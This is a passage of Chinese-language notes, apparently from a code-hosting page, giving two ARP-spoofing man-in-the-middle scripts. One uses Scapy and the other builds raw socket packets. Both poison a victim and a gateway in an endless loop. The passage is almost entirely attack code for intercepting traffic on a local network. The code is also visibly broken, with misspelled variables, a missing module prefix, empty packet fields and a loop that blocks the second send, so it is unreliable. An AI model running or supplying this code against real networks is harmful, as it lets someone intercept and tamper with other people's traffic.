 ```python
    print packet.show()
```

#### 欺骗-中间人欺骗

```python
#Scapy
#开启中间人欺骗，需要同时对目标主机和网关都进行欺骗
#ARP表项有生命周期，需要不断欺骗(循环 sendp(attackTarget,inter=1,loop=1))
import sys
import time
from scapy.all import sendp,ARP,Ether
if len(sys.argv) !=3:
    print sys.argv[0] + ": <target><spoof_ip>"
    sys.exit(1)
victimIP=sys.argv[1]
gatewayIP=sys.argv[2]
#欺骗主机
attackTarget=Ether()/ARP(psrc=gatewayIP,pdst=vimtimIP)
#欺骗网关
attackGateway=Ether()/ARP(psrc=vimtimIP,pdst=gatewayIP)
#循环  inter指定时间间隔  loop=1实现循环发送
sendp(attackTarget,inter=1,loop=1)
sendp(attackGateway,inter=1,loop=1)
**************************************************************
#Socket
#按照ARP数据包格式构造socket数据包
#    以太网目的地址，6位
#    以太网源地址，6位
#    帧类型，2位
#    硬件类型，2位
#    协议类型，2位
#    硬件地址长度，1位
#    协议地址长度，1位
#    op，2位
#    发送端以太网地址，6位
#    发送端IP地址，4位
#    目的以太网地址，6位
#    目的IP地址，4位
import socket
import struct
import binascii
s=socket(socket.PF_PACKET,socket.SOCK_RAW,socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))
srcMAC=''
dstMAC=''
code=''
htype=''
ptotype=''
hsize=''
psize=''
opcode=''
gatewayIP=''
victimIP=''
packet=dstMAC + srcMAC + code + htype + protype + hsize + psize + opcode + srcMAC + socket.inet_aton(gatewayIP) + dstMAC + socket.inet_aton(victimIP)
while 1:
    s.send(packet)
```
